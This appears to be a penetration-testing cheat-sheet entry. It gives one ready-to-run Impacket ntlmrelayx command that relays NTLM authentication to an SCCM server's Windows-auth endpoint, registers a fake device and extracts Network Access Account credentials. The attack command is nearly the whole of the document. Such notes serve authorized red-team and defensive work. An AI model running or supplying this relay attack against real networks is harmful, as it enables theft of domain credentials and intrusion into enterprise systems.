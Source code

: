 # ntlmrelayx (imp)

% impacket-mitm, windows, smb, 445, sccm

#plateform/linux  #target/remote #cat/ATTACK/RELAY


## sccm (NAA extraction)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
sudo ntlmrelayx.py -t http://<sccm_fqdn>/ccm_system_windowsauth/request --sccm --sccm-device <fake_computer|jubeaz> --sccm-fqdn <sccm_fqdn> --sccm-server <sccm_name> --sccm-sleep 10 -smb2support
```